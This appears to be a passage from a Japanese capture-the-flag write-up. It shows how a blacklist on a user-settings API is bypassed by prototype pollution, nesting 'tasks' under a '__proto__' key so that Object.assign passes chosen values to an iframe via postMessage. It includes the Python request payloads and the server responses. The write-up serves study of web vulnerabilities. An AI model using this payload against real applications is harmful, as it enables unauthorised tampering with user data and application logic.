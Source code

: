 流れとしては、以下の通り。
1. `/api/user/profile/<ユーザーID>`から情報を取得する
2. `Object.assign`を使って`userSettings`を作成
3. フィールドに情報を表示
4. `performanceIframe`に、`userSettings.tasks`を`postMessage`を通して送信

初期状態では`/api/user/profile/<ユーザーID>`の結果に`tasks`が含まれていない。また、ソースを読むと、`/api/user/settings`にPOSTを行うことでユーザー情報を書き換えることができることがわかる。試しに、
```python
r = s.post(URL + "api/user/settings", json={
    'name': "foobar",
    "phone": "01201079229",
    "position": "xxx",
    "tasks": ["foo", "bar"]
})
```
のように送ってみると、
```
{"error":"Not Allowed to Modify Tasks"}
```
という結果が返ってくる。しかし、
```python
r = s.post(URL + "api/user/settings", json={
    'name': "foobar",
    "phone": "01201079229",
    "position": "xxx",
    "aaa": "bbb"
})
```
のように適当なフィールドを送ってから`/api/user/profile/<ユーザーID>`に問い合わせると、
```
{"email":"tepel@a.com","assignedInfo":{"name":"foobar","phone":"01201079229","position":"xxx","aaa":"bbb"},"ownProfile":true}
```
のように保存されることがわかる。このことから、`tasks`が保存できないのは、ブラックリストとしてフィルタリングされているからだとわかる。

したがって、以下のように`__proto__`を利用して
```python
r = s.post(URL + "api/user/settings", json={
    'name': "foobar",
    "phone": "01201079229",
    "position": "01201079229",
    "__proto__": {
        "tasks": ["foo", "bar"]
    }
})
```
のようにPOSTすると、
```
{"email":"tepel@a.com","assignedInfo":{"name":"foobar","phone":"01201079229","position":"xxx","__proto__": {"tasks": ["foo", "bar"]}},"ownProfile":true}
```

のようになる。
```javascript
const userSettings = Object.assign(
                { name: "", phone: "", position: "" },
                profileData.assignedInfo
            );
```
が実行されると、プロトタイプチェーンにより、`userSettings.tasks`が`["foo", "bar"]`となる。これにより、好きな値を`performanceIframe`に`postMessage`できる。
